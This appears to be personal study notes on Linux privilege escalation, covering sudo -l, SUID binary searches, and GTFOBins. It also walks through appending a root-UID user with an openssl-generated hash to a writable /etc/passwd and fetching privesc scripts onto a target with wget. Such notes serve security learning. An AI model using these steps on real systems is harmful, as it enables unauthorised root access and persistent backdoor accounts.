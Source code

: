 # Linux Privilege Escalation

## Basics and what to look for

### Step 1: `sudo -l`

- use `sudo -l` to list what commands you are able to use as a super user on that account
- sometimes like this you'll find that you're able to **run certain commands as root without the root password**
- with a misconfigured binary like this we can try to explain them with `GTFOBins` (Unix binaries that can be exploited by attacker to bypass local security restriction) --> <https://gtfobins.github.io/>

### Step 2: check for files with SUID/GUID bit set

- special type file permission which allows file to run with permissions of whoever the owner is --> if it is root: **BINGO**
  - files can be run with permissions of the files owner/group
- when special permission is given to each user it becomes SUID or SGID
  - when extra bit “4” is set to user(Owner) it becomes SUID (Set user ID)
  - when bit “2” is set to group it becomes SGID (Set Group ID)
- permissions to look for when looking for SUID: `rws-rwx-rwx`
- permissions to look for when looking for SUID: `rwx-rws-rwx`
- **finding SUID/GUID Binaries:**
  - `find / -perm -u=s -type f 2>/dev/null` explained:
    - `find` command
    - `/` search whole file system
    - `-perm` search for files with specific permissions
    - `-u=s` any of the permission bits mode are set for the files
    - `-type f` only search filge
    - `2>/dev/null` suppress errors

### Step 3: can we read/write sensitive files?

- interesting files e.g.:
  - `/etc/passwd` --> plan text file
    - if we have write access to this file: vulnerability that can allow the creation of a root user that we can access
    - file format:
      - total of seven columns separated by colons:
        - Example: `test:x:0:0:root:/root:/bin/bash`
          1. Username: login name
          2. Password: `x` character indicates that encrypted password is stored in `/etc/shadow`
          3. UserID (UID)
             1. UID 0 = reserved for root
             2. UIDs 1-99 reserved for predefined accounts
             3. UIDs 100-999 reserved by system for administrative and system accounts/groups
             4. UID > 999: Users
          4. GroupID
          5. UserID Info
          6. Home directory
          7. Command/Shell: absolute path of command or shell
    - **Exploit** `/etc/passwd`:
      - simple: if we have writable `/etc/passwd` we can
        - write new line entry to create new user...
        - ...add password hash of our choice
        - set the UID, GID and shell to root allowing us to log in as our own root user
      - Example:
        - create compliant password hash: `openssl passwd -1 -salt [salt] [password]`
        - take this value (WATCHOUT: special characters need to be escaped like `$` with `\$`) to create new root user account
          `newusername:<hashvalue>:0:0:root:/root:/bin/bash`
          Example (with \$): `newuser:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
        - then you can login using the username and password hash with: `su -l <username>`
- Kernel information --> for kernel exploits
- can we read/write sensitive files?
  - world-writable files: files that any authenticated user can read and write to
  - looking at the permissions of these files, we can check if there is any misconfiguration that allows low privilege users to write to sensitive files
- SUID files
- Crontab Contents --> exploiting yet to check

## How to get privlege escalation scripts on target machine

- different possibilites:
  - go to directory, where local copy of privesc script is located on the attaker machine and
    - start webserver: `python3 -m http.server 8000`
    - on the target machine: `wget` and grab the file from the local machine
    - then on target machine make the file executable: `chmod +x <filename.sh>`
  - copy the raw code from Zwischenablage in new file on target machine, save the file with `.sh`-extension and make file executable

## Tool: LinEnum

- bash script that performs common commands related to privilege escalation
- download: <https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh>
- similar to LinPEAS

## Tool: LinPEAS

- ...stuff goes here
